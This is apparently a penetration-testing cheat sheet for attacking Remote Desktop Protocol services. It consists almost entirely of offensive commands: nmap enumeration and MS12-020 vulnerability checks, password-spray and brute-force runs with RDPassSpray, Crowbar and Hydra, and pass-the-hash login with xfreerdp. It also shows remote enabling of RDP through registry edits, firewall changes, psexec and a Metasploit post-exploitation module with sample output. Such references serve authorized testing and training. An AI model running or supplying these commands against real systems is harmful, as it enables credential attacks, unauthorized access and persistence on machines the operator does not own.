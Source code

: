 ```yaml
---
description: >-
  Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft
  which provides a user with a graphical interface to connect to another
  computer over a network connection.
---
```


# 3389 - RDP

## Enumeration

### Nmap

Find encryption type:

```
nmap -p 3389 --script rdp-enum-encryption <target>
```

Enumerates information from remote RDP services with CredSSP (NLA) authentication enabled:

```
nmap -p 3389 --script rdp-ntlm-info <target>
```

Check if vulnerable to MS12-020:

```
nmap -sV --script=rdp-vuln-ms12-020 -p 3389 <target>
```

## Brute force access

### RDPassSpray

RDPassSpary is a python tool to perform password spray attack in a Microsoft domain environment.

Link: [https://github.com/xFreed0m/RDPassSpray](https://github.com/xFreed0m/RDPassSpray)

Usage:

```
python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
```

### Crowbar

Link: [https://github.com/galkan/crowbar](https://github.com/galkan/crowbar)

```
./crowbar.py -b rdp -s 10.xx.xx.xx/32 -u sectest@TESTDOMAIN.local -C /root/Desktop/tests/hyda_rdp/rock.txt
```

### Hydra:

```
hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://192.168.1.1
```

## Tools to connect to RDP

### rdesktop

Remote Desktop for windows with share and 85% screen:&#x20;

```
rdesktop -u username -p password -g 85% -r disk:share=/tmp/share 10.10.10.10
```

### xfreerdp

**Login using hash:**

```
Xfreerdp /u:admin /d:win2012 /pth:[hash] /v:192.168.0.1
```

When CredSSP is required:&#x20;

```
xfreerdp --plugin rdpdr --data disk:home:/tmp -- -f -u john 192.168.0.44
```

To exit press 'ctrl+alt+enter'&#x20;

## Enable RDP

### Enable rdp from registry

```
reg add "\\host\HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Enable from netsh

```
netsh firewall set service remoteadmin enable 
netsh firewall set service remotedesktop enable
```

### Enable using psexec

```
psexec \\host reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f 
/usr/local/bin/psexec.py user:password@10.0.0.1 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Enable using metasploit

```
use post/windows/manage/enable_rdp
msf5 post(windows/manage/enable_rdp) > run

[*] Enabling Remote Desktop
[*] 	RDP is disabled; enabling it ...
[*] Setting Terminal Services service startup mode
[*] 	The Terminal Services service is not set to auto, changing it to auto ...
[+] 	RDP Service Started
[*] 	Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20200520112125_default_10.50.30.103_host.windows.cle_789147.txt
[*] Post module execution completed
msf5 post(windows/manage/enable_rdp) >
```
